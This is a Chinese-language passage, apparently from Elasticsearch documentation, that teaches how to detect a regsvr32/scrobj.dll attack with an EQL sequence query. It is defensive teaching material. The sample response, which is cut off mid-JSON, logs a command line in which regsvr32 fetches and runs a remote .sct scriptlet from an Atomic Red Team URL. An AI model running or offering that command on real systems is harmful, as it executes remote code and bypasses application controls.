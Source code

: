 ### 确定成功的可能性

在许多情况下，攻击者使用恶意脚本连接到远程服务器或下载其他文件。使用 EQL 序列查询检查以下一系列事件：

1. "regsvr32.exe"流程 2.通过相同的进程加载"scrobj.dll"库 3.同一进程的任何网络事件

根据上一个响应中看到的命令行值，您可以期望找到匹配项。但是，此查询不是为该特定命令设计的。相反，它会查找一种足够通用的可疑行为模式，以检测类似的威胁。

    
    
    GET /my-data-stream/_eql/search
    {
      "query": """
        sequence by process.pid
          [process where process.name == "regsvr32.exe"]
          [library where dll.name == "scrobj.dll"]
          [network where true]
      """
    }

查询与序列匹配，指示攻击可能成功。

    
    
    {
      ...
      "hits": {
        "total": {
          "value": 1,
          "relation": "eq"
        },
        "sequences": [
          {
            "join_keys": [
              2012
            ],
            "events": [
              {
                "_index": ".ds-my-data-stream-2099.12.07-000001",
                "_id": "gl5MJXMBMk1dGnErnBW8",
                "_source": {
                  "process": {
                    "parent": {
                      "name": "cmd.exe",
                      "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                      "executable": "C:\\Windows\\System32\\cmd.exe"
                    },
                    "name": "regsvr32.exe",
                    "pid": 2012,
                    "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                    "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                    "executable": "C:\\Windows\\System32\\regsvr32.exe",
                    "ppid": 2652
                  },
                  "logon_id": 217055,
                  "@timestamp": 131883573237130000,
                  "event": {
                    "category": "process",
                    "type": "creation"
                  },
                  "user": {
                    "full_name": "bob",
                    "domain": "ART-DESKTOP",
                    "id": "ART-DESKTOP\\bob"
                  }
                }